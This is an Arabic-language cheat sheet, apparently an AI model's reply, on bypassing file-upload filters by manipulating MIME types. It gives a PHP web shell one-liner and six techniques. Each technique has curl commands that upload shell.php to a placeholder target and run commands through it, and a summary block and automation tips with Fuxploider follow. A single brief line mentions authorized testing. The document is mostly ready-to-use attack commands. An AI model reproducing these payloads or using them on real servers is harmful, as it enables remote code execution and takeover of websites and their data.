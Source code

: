 
## جميع المحاولات الممكنة للتلاعب بنوع MIME

فيما يلي قائمة شاملة بجميع التقنيات الممكنة للتلاعب بنوع MIME، مقسمة إلى فئات مع شرح كل تقنية، كيف تعمل، متى تُستخدم، والأوامر المرتبطة بها.

```
<?php system($_GET['cmd']); ?>
```

### 1. تغيير Content-Type إلى نوع صورة شائع
**شرح**: تغيير رأس Content-Type إلى نوع صورة مسموح (مثل image/jpeg) لتحميل ملف PHP أو ASP كصورة.
**كيف يعمل**: الخادم قد يقبل الملف بناءً على رأس Content-Type دون فحص المحتوى الفعلي.
**متى يُستخدم؟**: عندما يعتمد الخادم على التحقق من نوع MIME فقط.
**المحاولات**:
- Content-Type: image/jpeg
- Content-Type: image/png
- Content-Type: image/gif
**الأوامر**:
- إنشاء ويب شيل:
  ```bash
  echo '<?php system($_GET["cmd"]); ?>' > shell.php
  ```
- إرسال الطلب باستخدام curl:
  ```bash
  curl -X POST -H "Content-Type: image/jpeg" -F "file=@shell.php" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php?cmd=whoami'
  ```

### 2. استخدام Content-Type عام (Generic)
**شرح**: استخدام نوع MIME عام مثل application/octet-stream لتحميل ملف خبيث، حيث قد يقبل الخادم هذا النوع كبديل غير مقيد.
**كيف يعمل**: بعض الخوادم لا تفرض أنواع MIME محددة، مما يسمح بقبول أنواع عامة.
**متى يُستخدم؟**: عندما لا يكون الخادم صارمًا في التحقق من أنواع MIME المحددة.
**المحاولات**:
- Content-Type: application/octet-stream
- Content-Type: application/x-www-form-urlencoded
**الأوامر**:
- إرسال الطلب:
  ```bash
  curl -X POST -H "Content-Type: application/octet-stream" -F "file=@shell.php" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php?cmd=whoami'
  ```

### 3. إضافة رؤوس Content-Type متعددة
**شرح**: إرسال رأسي Content-Type في نفس الطلب، أحدهما غير مسموح (مثل application/x-php) والآخر مسموح (مثل image/jpeg).
**كيف يعمل**: بعض الخوادم قد تقرأ رأس Content-Type الأخير فقط أو تتجاهل الأول، مما يسمح بتحميل الملف.
**متى يُستخدم؟**: عند وجود معالجة غير متسقة لرؤوس HTTP.
**المحاولات**:
- Content-Type: application/x-php متبوعًا بـ Content-Type: image/jpeg
- Content-Type: text/php متبوعًا بـ Content-Type: image/png
**الأوامر**:
- إرسال الطلب باستخدام curl:
  ```bash
  curl -X POST -H "Content-Type: application/x-php" -H "Content-Type: image/jpeg" -F "file=@shell.php" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php?cmd=whoami'
  ```

### 4. استخدام أنواع MIME غير قياسية
**شرح**: استخدام أنواع MIME غير شائعة أو غامضة قد لا تكون محظورة بواسطة فلاتر الخادم.
**كيف يعمل**: الخوادم قد تسمح بأنواع غير مدرجة في قوائم الحظر أو تتعامل معها كأنواع مسموحة افتراضيًا.
**متى يُستخدم؟**: عندما يحظر الخادم أنواعًا شائعة فقط (مثل application/x-php) ولكنه يسمح بأنواع أخرى.
**المحاولات**:
- Content-Type: text/plain
- Content-Type: application/zip
- Content-Type: application/pdf
- Content-Type: text/x-php
**الأوامر**:
- إرسال الطلب:
  ```bash
  curl -X POST -H "Content-Type: text/plain" -F "file=@shell.php" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php?cmd=whoami'
  ```

### 5. إزالة رأس Content-Type
**شرح**: إزالة رأس Content-Type من طلب التحميل بالكامل، مما قد يؤدي إلى تجاوز التحقق إذا كان الخادم لا يتطلب هذا الرأس.
**كيف يعمل**: بعض الخوادم لا تتحقق من وجود Content-Type وتعتمد على الامتداد أو المحتوى فقط.
**متى يُستخدم؟**: عندما لا يفرض الخادم وجود رأس Content-Type.
**المحاولات**:
- إرسال طلب بدون Content-Type.
**الأوامر**:
- إرسال الطلب:
  ```bash
  curl -X POST -F "file=@shell.php" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php?cmd=whoami'
  ```

### 6. استخدام Content-Type لتطبيقات أخرى
**شرح**: استخدام أنواع MIME مرتبطة بتطبيقات أخرى (مثل application/xml أو text/html) قد تكون مسموحة أو غير مفحوصة.
**كيف يعمل**: الخادم قد يقبل أنواعًا غير متوقعة إذا لم تكن مدرجة في قائمة الحظر.
**متى يُستخدم؟**: عندما يسمح الخادم بأنواع غير صورية أو عند اختبار سياقات غير قياسية.
**المحاولات**:
- Content-Type: application/xml
- Content-Type: text/html
- Content-Type: application/json
**الأوامر**:
- إرسال الطلب:
  ```bash
  curl -X POST -H "Content-Type: application/xml" -F "file=@shell.php" http://<target>/upload
  ```
- اختبار التنفيذ:
  ```bash
  curl 'http://<target>/Uploads/shell.php?cmd=whoami'
  ```

---

## ملخص جميع الأوامر لكل تقنية

1. **تغيير Content-Type إلى نوع صورة شائع**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php
   curl -X POST -H "Content-Type: image/jpeg" -F "file=@shell.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

2. **استخدام Content-Type عام**:
   ```bash
   curl -X POST -H "Content-Type: application/octet-stream" -F "file=@shell.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

3. **إضافة رؤوس Content-Type متعددة**:
   ```bash
   curl -X POST -H "Content-Type: application/x-php" -H "Content-Type: image/jpeg" -F "file=@shell.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

4. **استخدام أنواع MIME غير قياسية**:
   ```bash
   curl -X POST -H "Content-Type: text/plain" -F "file=@shell.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

5. **إزالة رأس Content-Type**:
   ```bash
   curl -X POST -F "file=@shell.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

6. **استخدام Content-Type لتطبيقات أخرى**:
   ```bash
   curl -X POST -H "Content-Type: application/xml" -F "file=@shell.php" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

---

## نصائح إضافية
- **استخدام أدوات الوكيل**: استخدم Burp Suite أو OWASP ZAP لتعديل رؤوس Content-Type بسهولة أثناء التحميل.
- **دمج مع تقنيات أخرى**: ادمج التلاعب بنوع MIME مع تجاوز الامتدادات (مثل shell.php.jpg) أو إضافة بايتات سحرية (مثل \x89PNG).
- **اختبار أنواع متعددة**: جرب قائمة أنواع MIME من مصادر مثل SecLists/web-all-content-types.txt:
  ```bash
  curl -X POST -H "Content-Type: $(cat content-types.txt)" -F "file=@shell.php" http://<target>/upload
  ```
- **أتمتة الاختبار**: استخدم Fuxploider لاختبار أنواع MIME متعددة:
  ```bash
  python3 fuxploider.py --url http://<target>/upload --extensions php --content-type image/jpeg
  ```
- **التحقق من التنفيذ**: تحقق دائمًا من تنفيذ الملف عبر curl أو المتصفح.
- **الاختبار بمسؤولية**: اختبر فقط على أهداف مُصرح بها (مثل بيئات مختبرية أو برامج مكافآت الأخطاء).

إذا كنت تريد شرح خطوة أخرى (مثل Manipulate Magic Bytes أو Exploit Configuration Files) بنفس الأسلوب، أو تركيزًا على نوع خادم معين، أخبرني وسأقدم ردًا مخصصًا!